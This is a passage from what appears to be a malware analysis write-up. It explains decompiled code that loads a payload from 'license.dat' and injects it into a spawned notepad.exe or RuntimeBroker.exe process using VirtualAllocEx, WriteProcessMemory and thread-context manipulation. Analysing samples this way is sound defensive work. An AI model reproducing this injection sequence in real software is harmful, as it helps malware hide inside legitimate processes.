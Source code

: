 In this function it used strrchr, it will return a pointer to the last occurrence of character in the C string, in other words, it will find a string inside **a1** that placed after **a2**.
Return to previous function, it called *(_BYTE *)sub_180005980(Filename, 92LL) = 0, with value 92 it equals to \ character, that means it will extract filename after \. And now we know how **sub_1800058F0()** works, let's return our function!:

```
v4 = (const char *)sub_1800058F0();
strcpy(Destination, v4);
strcat(Destination, "\\license.dat");
Stream = fopen(Destination, "rb");
for ( i = 0; fread((void *)(i + qword_18000B230), 1uLL, 1uLL, Stream); ++i )
  ;
fclose(Stream);
v17 = i + 1;
VirtualAlloc(0LL, i + 1, 0x1000u, 2u);
```

Combine all things we analysed before, in this code **sub_1800058F0()** was imported to **Destination**, and then it used **strcat** to combine 2 variables: Destination and license.dat, that means it will write data to license.dat.
Next, you can see it will write data from **qword_18000B230** to .dat file. Because inside a program, there're so many functions and that's a difficulty - we don't know where to analyse, so I just analysed some functions that looked suspicious.

```
  if ( (unsigned int)sub_180005F00() )
  {
    sub_180005FF0();
    CreateProcessA(0LL, "notepad.exe", 0LL, 0LL, 0, 0x44u, 0LL, 0LL, (LPSTARTUPINFOA)StartupInfo, &ProcessInformation);
  }
  else
  {
    CreateProcessA(
      0LL,
      "RuntimeBroker.exe",
      0LL,
      0LL,
      0,
      0x44u,
      0LL,
      0LL,
      (LPSTARTUPINFOA)StartupInfo,
      &ProcessInformation);
  }
  v24[12] = 65539;
  ((void (__fastcall *)(HANDLE, _DWORD *))ProcAddress)(ProcessInformation.hThread, v24);
  lpBaseAddress = VirtualAllocEx(ProcessInformation.hProcess, 0LL, v17, 0x1000u, 0x40u);
  WriteProcessMemory(ProcessInformation.hProcess, lpBaseAddress, lpBuffer, v17, &NumberOfBytesWritten);
  v25 = lpBaseAddress;
  ((void (__fastcall *)(HANDLE, _DWORD *))v12)(ProcessInformation.hThread, v24);
  ((void (__fastcall *)(HANDLE))v11)(ProcessInformation.hThread);
  CloseHandle(ProcessInformation.hThread);
  CloseHandle(ProcessInformation.hProcess);
  CurrentProcess = GetCurrentProcess();
  return TerminateProcess(CurrentProcess, 0);
```
